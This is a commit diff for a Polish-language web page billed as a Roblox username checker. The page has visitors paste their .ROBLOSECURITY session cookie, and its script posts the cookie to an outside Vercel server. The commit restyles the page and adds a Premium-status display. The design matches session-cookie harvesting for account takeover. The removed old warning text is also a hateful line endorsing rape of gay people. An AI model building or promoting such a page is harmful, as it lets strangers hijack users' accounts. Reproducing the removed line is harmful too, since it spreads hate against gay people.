

Before and after one commit to megosakbi/Checker, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (308-997 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,21 +3,60 @@
 <head>
   <meta charset="UTF-8">
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
-  <title>Roblox – nazwa z .ROBLOSECURITY</title>
+  <title>die blo</title>
   <style>
-    body { font-family: Arial, sans-serif; max-width: 600px; margin: 40px auto; padding: 20px; background: #111; color: #eee; }
-    textarea { width: 100%; height: 120px; background: #222; color: #eee; border: 1px solid #444; padding: 12px; font-family: monospace; }
-    button { padding: 14px 32px; background: #1e90ff; border: none; color: white; font-size: 17px; cursor: pointer; margin: 15px 0; }
-    button:hover { background: #0c7ae6; }
-    #result { margin-top: 25px; padding: 20px; background: #1a1a1a; border: 1px solid #444; border-radius: 8px; min-height: 80px; }
+    body {
+      font-family: Arial, sans-serif;
+      max-width: 600px;
+      margin: 40px auto;
+      padding: 20px;
+      background: #111;
+      color: #eee;
+    }
+    textarea {
+      width: 100%;
+      height: 140px;
+      background: #222;
+      color: #eee;
+      border: 1px solid #444;
+      padding: 12px;
+      font-family: monospace;
+      resize: vertical;
+    }
+    button {
+      padding: 14px 32px;
+      background: #1e90ff;
+      border: none;
+      color: white;
+      font-size: 17px;
+      cursor: pointer;
+      margin: 15px 0;
+      border-radius: 4px;
+    }
+    button:hover {
+      background: #0c7ae6;
+    }
+    #result {
+      margin-top: 25px;
+      padding: 20px;
+      background: #1a1a1a;
+      border: 1px solid #444;
+      border-radius: 8px;
+      min-height: 120px;
+      line-height: 1.6;
+    }
     .error { color: #ff4d4d; }
     .success { color: #00ff9d; }
+    b { color: #ddd; }
   </style>
 </head>
 <body>
 
-<h2>Pobierz nazwę użytkownika Roblox z cookie</h2>
-<p style="color:#ffcc00;"><strong>OSTRZEŻENIE:</strong> i rape gays cuz they like it!</p>
+<h2>blah</h2>
+
+<p style="color:#ffcc00; font-weight:bold;">
+  <strong>HELLo:</strong> używanie cudzych cookie jest niezgodne z regulaminem Roblox
+</p>
 
 <textarea id="cookie" placeholder="Wklej tutaj sam ciąg .ROBLOSECURITY (bez '.ROBLOSECURITY=')"></textarea>
 
@@ -33,11 +72,11 @@
   result.innerHTML = '';
 
   if (cookieVal.length < 200) {
-    result.innerHTML = '<span class="error">Wklej poprawne cookie!</span>';
+    result.innerHTML = '<span class="error">Wklej poprawne cookie! (zbyt krótki ciąg)</span>';
     return;
   }
 
-  result.innerHTML = '<i>Proszę czekać...</i>';
+  result.innerHTML = '<i>Proszę czekać... trwa weryfikacja</i>';
 
   try {
     const resp = await fetch('https://checker-alpha-pink.vercel.app/api/get-username', {
@@ -50,12 +89,20 @@
 
     if (json.error) {
       result.innerHTML = `<span class="error">Błąd: ${json.error}</span>`;
-    } else if (json.success) {
+      return;
+    }
+
+    if (json.success) {
       result.innerHTML = `
         <span class="success">Zalogowano pomyślnie!</span><br><br>
+
         <b>Nazwa użytkownika:</b> ${json.username}<br>
         <b>Display Name:</b> ${json.displayName}<br>
-        <b>User ID:</b> ${json.userId}
+        <b>User ID:</b> ${json.userId}<br>
+        <b>Roblox Premium:</b>
+          <span style="color: ${json.hasPremium ? '#00ff9d' : '#ff4d4d'}; font-weight: bold;">
+            ${json.hasPremium ? 'TAK ✓' : 'NIE ✗'}
+          </span>
       `;
     } else {
       result.innerHTML = '<span class="error">Nieznana odpowiedź serwera</span>';
```
